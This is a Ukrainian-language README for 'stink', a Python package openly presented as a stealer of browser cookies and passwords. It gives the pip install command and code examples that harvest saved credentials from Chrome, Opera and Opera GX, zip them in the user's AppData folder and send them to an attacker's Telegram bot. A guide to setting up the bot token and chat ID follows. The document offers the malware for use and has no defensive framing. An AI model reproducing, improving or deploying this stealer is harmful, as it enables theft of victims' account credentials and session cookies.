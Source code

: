 # stink

Стіллер кукі та паролей з відправкою в Telegram всього лише в 2 рядки.

## Опис
`stink` в даний момент тільки починає свій розвиток. У майбутньому його функціонал буде розширено.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Майбутні можливості](#Майбутні-можливості)
* [Установка](#Установка)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Кастомний](#Кастомний)
* [Налаштування Telegram бота](#Налаштування-Telegram-бота)
  * [Отримання токена](#Отримання-токена)
  * [Отримання айді](#Отримання-айді)

### Поточні можливості
1. Збір кукі та паролів наступних браузерів: Chrome, Opera, Opera GX.
2. Відправлення зібраних даних архівом в Telegram.
3. Виконання в окремому потоці.

### Майбутні можливості
1. Підтримка інших браузерів.
2. Збір інформації про систему.
3. Збір айпі та інше.
 
## Установка

Встановити останню версію можна командою:
```
pip install stink==0.0.3
```

## Приклад використання
### Стандартний
```python
from stink.multistealer import Stealer

Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартний ```Stealer``` запускає збір з усіх доступних браузерів і відправляє зібрані дані архівом вам в Telegram.

### Кастомний
```python
from os import path, mkdir
from getpass import getuser

from stink.browsers.chrome import Chrome
from stink.modules.sender import Sender

user = getuser()

zip_name = f"{user}-st"
storage_path = f"C:/Users/{user}/AppData/"
storage_folder = "files/"


def main():

    mkdir(storage_path + storage_folder)

    Chrome(storage_path, storage_folder).run()
    Sender(zip_name, storage_path, storage_folder, "YOUR_TOKEN", YOUR_ID).run()


if __name__ == "__main__":
    main()
```
В кастомному стіллері потрібно самому прописувати необхідні браузери і шлях для зберігання зібраних даних. Модуль ```Sender``` запакує всі файли в архів і відправить його вам в Telegram.

## Налаштування Telegram бота
### Отримання токена
1. Відкриваємо чат з [BotFather](https://t.me/botfather).
2. Прописуємо команду ```/ newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописуємо назву бота, далі нік з прикладкою ```_bot``` в кінці.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Отриманий токен вставляємо в поле ```"YOUR_TOKEN"``` в скрипті.

### Отримання айді
1. Відкриваємо чат з [Get My ID](https://t.me/getmyid_bot).
2. Прописуємо команду ```/ start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Отриманий айді вставляємо в поле ```YOUR_ID``` в скрипті.
